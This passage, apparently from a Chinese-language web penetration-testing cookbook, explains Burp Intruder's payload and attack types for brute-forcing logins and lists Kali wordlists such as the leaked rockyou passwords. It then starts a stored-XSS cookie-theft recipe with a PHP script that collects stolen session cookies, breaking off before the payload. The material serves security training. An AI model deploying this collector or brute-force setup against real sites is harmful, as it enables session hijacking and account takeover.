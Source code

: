 ### 工作原理

Intruder 所做的是，修改请求的特定部分，并使用定义好的载荷替换这些部分的值。载荷可以是这些东西：

+   简单列表：来自文件，由剪贴板传递或者写在文本框中的列表。

+   运行时文件：Intruder 可以在运行时从文件中读取载荷，所以如果文件非常大，它不会完全加载进内存。

+   数字：生成一列顺序或随机的数字，以十进制或十六进制形式。

+   用户名生成器：接受邮件地址列表，从中提取可能的用户。

+   爆破器：接受字符集并使用它来生成指定长度的所有排列。

这些载荷由 Intruder 以不同形式发送，在`Positions`标签页中由攻击类型指定。攻击类型在载荷标记中的组合和排列方式上有所不同。

+   Sniper：对于载荷的单一集合，它将每个载荷值放在每个标记位置，一次一个。

+   Battering ram：类似 Sniper，它使用载荷的单一集合，不同点是它在每个请求中将所有位置设置为相同的值。

+   Pitchfork：使用多个载荷集合，并将每个集合中的一个项目放到每个标记位置中。当我们拥有不能混用的预定义数据时，这会非常有用，例如，测试已知的用户名和密码。

+   Cluster bomb：测试多个载荷，所以每个可能的排列都可以测试到。

对于结果，我们可以看到所有失败尝试都有相同的响应，这里是 811 字节。所以我们假设成功响应的长度应该不同（因为它会重定向到用户主页）。如果碰巧成功和失败请求长度相同，我们也可以检查状态码或者使用搜索框来寻找响应中的特定模式。

### 更多

Kali 包含了非常实用的密码字典和单词列表集合，位于` /usr/ share/wordlists`。一些文件可以在这里找到：

+   `rockyou.txt`：Rockyou.com 在 2010 年被攻破，泄露了多于 14 亿的密码，这个列表包含它们。

+   `dnsmap.txt`：包含常用的子域名称，例如内部网络、FTP 或者 WWW。在我们爆破 DNS 服务器时非常实用。

+   `./dirbuster/*`：`dirbuster `目录包含 Web 服务器中常见的文件名称，这些文件可以在使用`DirBuster `或 OWASP ZAP 强制浏览时使用。

+   `./wfuzz/*`：在这个目录中，我们可以找到用于 Web 攻击的模糊字符串的大量集合，以及爆破文件。

## 6.6 通过 XSS 获得会话 Cookie

我们已经谈论过了 XSS，它是现在最常见的 Web 攻击之一。XSS 可以用于欺骗用户，通过模仿登录页面来获得身份，或者通过执行客户端命令来收集信息，或者通过获得会话 cookie 以及冒充在攻击者的浏览器中的正常用户来劫持会话。

这个秘籍中，我们会利用持久性 XSS 来获得用户的会话 Cookie，之后使用这个 cookie 来通过移植到另一个浏览器来劫持会话，之后冒充用户来执行操作。

### 准备

对于这个秘籍，我们需要启动 Web 服务器作为我们的 cookie 收集器，所以在我们攻击之前，我们需要启动 Kali 中的 Apache，之后在 root 终端中执行下列命令：

```
service apache2 start
```

在这本书所使用的系统中，Apache 的文档根目录位于`/var/www/html`，创建叫做`savecookie.php`的文件并输入下列代码：

```php
<?php 
$fp = fopen('/tmp/cookie_data.txt', 'a'); 
fwrite($fp, $_GET["cookie"] . "\n"); 
fclose($fp); 
?>
```
